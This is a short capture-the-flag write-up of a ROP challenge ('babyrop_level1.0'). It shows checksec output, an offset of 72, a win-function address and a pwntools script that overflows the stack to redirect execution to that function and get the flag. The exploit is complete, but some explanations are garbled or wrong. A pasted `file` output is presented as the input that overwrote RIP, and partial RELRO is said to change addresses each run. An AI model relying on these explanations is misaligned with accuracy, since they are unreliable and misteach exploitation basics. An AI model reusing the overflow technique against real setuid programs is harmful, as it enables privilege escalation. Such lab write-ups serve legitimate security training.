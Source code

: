# ROP

1.0
Running file, this is the information we get: `setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d8139021537155e37001bee6c246dc903124f45c, for GNU/Linux 3.2.0, not stripped`
The setuid should be able to allow u to escalate our privileges when we execute certain code within the binary. It is also important to note it is x86-64 as this determines how many bytes are required to overwrite the RIP; 8. (since it is 64 bit).
We are given the return address: 0x7ffd9ad57f78 
And offset: 72
win function address: 0x401d8e
This exponentially reduces the difficulty.

Entering `setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d8139021537155e37001bee6c246dc903124f45c, for GNU/Linux 3.2.0, not stripped` confirms we have overwritten the RIP based on the output of the programme.
Checking which checks are in place"
```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    SHSTK:    Enabled
    IBT:      Enabled
```
    the partial RELRO means the address will differ each time. Thus, we need to be able to retrieve this and use it when exploiting. However, the win function does not change, and since we are given the offset it is not needed in this scenario.


PoC code which gave ROP gadgets for the practice:
```python
from pwn import *

binary = ELF("/challenge/babyrop_level1.0")
p = binary.process()

offset = 72
payload = b"A"*offset
payload += b"\x8e\x1d\x40\x00\x00\x00\x00\x00"

print(p.recvuntil(b"address).\n"))
p.sendline(payload)
print(p.recvall())
```

And we got the flag.



